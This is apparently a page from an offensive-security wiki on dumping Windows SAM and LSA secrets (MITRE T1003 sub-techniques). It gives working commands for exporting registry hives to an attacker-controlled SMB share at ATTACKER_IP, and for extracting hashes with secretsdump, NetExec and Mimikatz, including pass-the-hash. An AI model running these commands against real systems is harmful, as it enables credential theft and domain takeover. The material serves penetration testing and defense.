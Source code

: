 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
authors: ShutdownRepo, mpgn, p0dalirius, sckdev
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive | Details | Format or credential material |
| -------- | -------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SAM | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes |
| SECURITY | stores domain cached credentials (referred to as LSA secrets) | Plaintext passwords, LM or NT hashes, Kerberos keys (DES, AES), Domain Cached Credentials (DCC1 and DCC2), Security Questions (`L$`*`SQSA`*`<SID>`),  |
| SYSTEM | contains enough info to decrypt SAM secrets and LSA secrets | N/A |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material | Subsequent attacks |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md) or [silver tickets](../../kerberos/forged-tickets/) |
| LM and NT hashes | [credential spraying](../bruteforcing/spraying), [stuffing](../bruteforcing/stuffing.md), [shuffling](../shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash) | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Kerberos keys (DES, AES) | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/) |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md) |

## Practice

### Exfiltration

::: tabs

=== UNIX-like

[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../builtins/security-groups) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```


=== Live Windows

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

> [!TIP]
> The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

> [!TIP]
> Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin) like demonstrated for an NTDS export.


=== Down Windows

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

:::


### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

::: tabs

=== secretsdump

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```


=== netexec

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
netexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
netexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
netexec smb $TARGETS --kerberos --sam/--lsa
```


=== Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```

:::

> [!TIP]
> Secretsdump (Impacket) and NetExec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.

## Resources

[http://moyix.blogspot.com/2008/02/syskey-and-sam.html](http://moyix.blogspot.com/2008/02/syskey-and-sam.html)

[http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html](http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html)

[https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)

[https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/](https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/)
